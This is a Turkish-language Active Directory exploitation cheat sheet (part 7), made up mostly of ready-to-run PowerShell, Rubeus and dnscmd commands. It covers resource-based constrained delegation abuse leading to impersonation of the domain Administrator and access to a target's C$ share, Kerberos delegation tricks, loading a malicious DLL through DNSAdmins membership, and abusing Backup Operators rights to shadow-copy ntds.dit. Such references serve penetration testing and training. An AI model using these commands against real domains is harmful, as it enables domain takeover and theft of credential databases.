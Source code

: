 # Active Directory Exploitation Cheat Sheet - Bölüm 7

## Exploitation Örneği: 

### Powermad Kullanarak Yeni Bir Makine Hesabı Oluşturma:
```powershell
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
```

### PowerView ile Makine Hesabının SID'ini Alma:
```powershell
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
```

### ACE Oluşturma:
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

### msDS-AllowedToActOnBehalfOfOtherIdentity Alanını Ayarlama:
```powershell
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

### Rubeus ile RC4 Hash Hesaplama:
```bash
Rubeus.exe hash /password:'p@ssword!'
```

### CIFS Servisinde Domain Admin İmpersonation:
```bash
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt
```

### Hedef Makinenin C$ Sürücüsüne Erişim:
```bash
dir \\TargetMachine.wtver.domain\C$
```

## Constrain ve Resource-Based Constrained Delegation

### Kekeo veya Rubeus Kullanarak Delegation Hakkını Kandırma:
- **Rubeus Kullanımı:**
  ```bash
  Rubeus.exe tgtdeleg /nowrap
  ```

## DNSAdmins Abuse

### Açıklama:
DNSAdmins grubunun bir üyesi, dns.exe'nin SYSTEM yetkileriyle keyfi bir DLL yüklemesine izin verebilir. DC bir DNS sunucusu olarak çalışıyorsa, bu yöntemle DA yetkisi yükseltilebilir.

#### DNSAdmins Grubu Üyelerini Listeleme:
- **PowerView Kullanımı:**
  ```powershell
  Get-NetGroupMember -GroupName "DNSAdmins"
  ```

- **AD Modülü Kullanımı:**
  ```powershell
  Get-ADGroupMember -Identity DNSAdmins
  ```

#### Malicious DLL ile Yetki Yükseltme:
- **dnscmd Kullanımı:**
  ```bash
dnscmd <NameOfDNSMachine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
  ```

- **DNS Servisini Yeniden Başlatma:**
  ```bash
  sc \\DNSServer stop dns
  sc \\DNSServer start dns
  ```

## Backup Operators Grubunun Suistimali

### Açıklama:
Backup Operators grubuna üye bir kullanıcı hesabını ele geçirirsek, SeBackupPrivilege yetkisini suistimal ederek DC'nin mevcut durumunun shadow copy'sini oluşturabilir, ntds.dit dosyasını çıkarabilir ve DA yetkilerini elde edebiliriz.

#### Shadow Copy Oluşturma:
1. **Shadow Copy Script'i Oluşturma:**
```plaintext
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive
create
```
